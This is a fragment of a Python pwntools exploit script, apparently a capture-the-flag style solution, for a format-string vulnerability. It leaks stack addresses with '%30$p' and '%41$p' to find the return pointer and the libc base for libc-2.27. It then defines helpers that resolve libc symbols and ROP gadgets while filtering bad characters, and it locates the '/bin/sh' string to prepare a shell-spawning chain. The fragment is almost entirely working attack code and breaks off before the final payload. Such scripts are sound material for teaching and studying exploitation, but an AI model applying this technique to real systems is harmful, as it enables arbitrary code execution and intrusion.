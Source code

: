 ```python

    offsets = list(range(len(values)))
    

    # print(offsets)
    # print(values)
    for x in range(len(values)):
        # print('0x'+values[x])
        # print(where+x)
        raw_writer('0x'+values[x], where+2*offsets[x])


# determine the address of return pointer
address_return_pointer = int(fmt_str('%30$p'), 16)   - 0x10 # This line is libc specific
arp = address_return_pointer
log.success('Address or return pointer: ' + hex(arp))
################### Writable area in memory ########
writable_buffer = int(fmt_str('%30$p'), 16) - 0x128
buff = hex(writable_buffer)


################ check for bad characters ################
def bad_check(sym):
    try:                    # Byte string conversion
        sym = p64(int(sym,16))
    except:
        pass
    if b'\n' in sym:
        print(' Bad Char detected : quitting')
        #print(sym)
        exit()

###############################################################################
#################################### LIBC STUFF ###############################
###############################################################################

# Leaking libc base address
base = int(fmt_str('%41$p'), 16)
lba = base - 0x21b97                                # This line is libc specific
log.success('Libc base address: ' + hex(lba))

# Load Libc
#libc = ELF('/lib/libc-2.30.so')
libc=ELF('./libc-2.27.so')


# Symbol search for libc
def get_sym(symbol):
    p_sym = hex(libc.symbols[symbol] + lba)
    bad_check(p_sym)
    return hex(libc.symbols[symbol] + lba)


# Gagets search for libc
def get_gadget(snip):
    p_sym = hex(next(libc.search(asm(snip))) + lba)
    bad_check(p_sym)
    return hex(next(libc.search(asm(snip))) + lba)


# Strings
bin_sh = hex(lba + next(libc.search(b'/bin/sh')))

```